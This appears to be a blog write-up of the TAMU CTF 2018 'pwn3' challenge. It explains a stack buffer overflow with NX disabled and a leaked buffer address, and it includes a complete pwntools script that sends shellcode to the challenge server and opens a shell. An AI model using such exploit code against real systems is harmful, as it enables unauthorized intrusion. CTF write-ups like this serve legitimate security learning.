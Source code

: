 ```yaml
---
title:  TAMU CTF 2018 - PWN2
author: zangobot
layout: post
category: ctf
tags: [ ctf, springchicken, challenge ]
---
```

pwn3 is the natural evolution of [pwn2]({{site.base_url}}/writeups/TAMU2018/pwn2):

```
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffc9967a!
Now what should I echo? springchicken_is_ok
springchicken_is_ok
```
Again, no canary and for the first time, NX disabled (this is nice).

BUT ASLR is enabled!
There is no `print_flag` function... man this is though.

Or maybe not? NX is disabled, so I can put a shellcraft into the stack and execute it.

But how can I reference it? Just look at the output of radare2.

The address printed at the beginning is the address of the input string.

**BINGO.**


```
from pwn import *

OFFSET = 242 #found using ragg2

rem = remote('pwn.ctf.tamu.edu', 4323)

#read useless line
for i in range(0,5):
    rem.recvline()

#this is the address line
to_grep = rem.recvline()

#this is the address
address = '0x'+to_grep[::-1][2:10][::-1]
address = p32(int(address,16))

#voilà
shellcode = asm(shellcraft.i386.sh())
exploit = shellcode + 'A'*(OFFSET - len(shellcode)) + address

rem.sendline(exploit)
rem.interactive()


```

Flag captured <.<
